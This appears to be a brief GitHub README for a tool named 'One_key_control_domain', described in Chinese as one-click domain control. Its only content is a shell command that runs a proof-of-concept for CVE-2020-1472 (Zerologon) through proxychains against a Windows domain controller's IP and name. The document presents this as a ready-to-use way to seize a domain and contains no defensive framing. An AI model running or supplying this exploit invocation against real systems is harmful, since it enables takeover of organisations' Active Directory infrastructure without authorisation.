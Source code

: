 # One_key_control_domain
一键域控。。先放一个poc好了
```shell
proxychains python3 cli.py -r pocs/windowsexp/windows_dc_cve_2020_1472.py -u 192.168.1.1 --dcname dcname
```
